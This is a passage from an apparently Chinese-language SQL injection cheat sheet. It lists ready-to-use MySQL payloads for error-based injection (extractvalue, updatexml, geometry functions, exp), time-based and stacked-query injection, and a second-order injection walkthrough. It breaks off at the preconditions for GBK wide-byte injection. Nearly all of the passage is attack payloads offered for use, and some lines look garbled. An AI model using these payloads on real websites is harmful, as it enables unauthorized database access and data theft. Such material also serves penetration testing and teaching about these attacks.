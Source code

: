 id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))

#### 3 updatexml()

id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))

#### 4 geometrycollection()

id=1 and geometrycollection((select * from(select * from(select user())a)b))

#### 5 multipoint()

id=1 and multipoint((select * from(select * from(select user())a)b))

#### 6 polygon()

id=1 and polygon((select * from(select * from(select user())a)b))

#### 7 multipolygon()

id=1 and multipolygon((select * from(select * from(select user())a)b))

#### 8 linestring()

id=1 and linestring((select * from(select * from(select user())a)b))

#### 9 multilinestring()

id=1 and multilinestring((select * from(select * from(select user())a)b))

#### 10 exp()

id=1 and exp(~(select * from(select user())a))

### 时间注入

id = 1 and if(length(database())>1,sleep(5),1)

### 堆叠查询注入

id = 1';select if(sub(user(),1,1)='r',sleep(3),1)%23

### 二次注入

假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；

接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。

访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。

### 宽字节注入

#### 利用条件：

•[ ] 查询参数是被单引号包围的，传入的单引号又被转义符()转义，如在后台数据库中对接受的参数使用addslashes()或其过滤函数•[ ] 数据库的编码为GBK

#### 利用方式

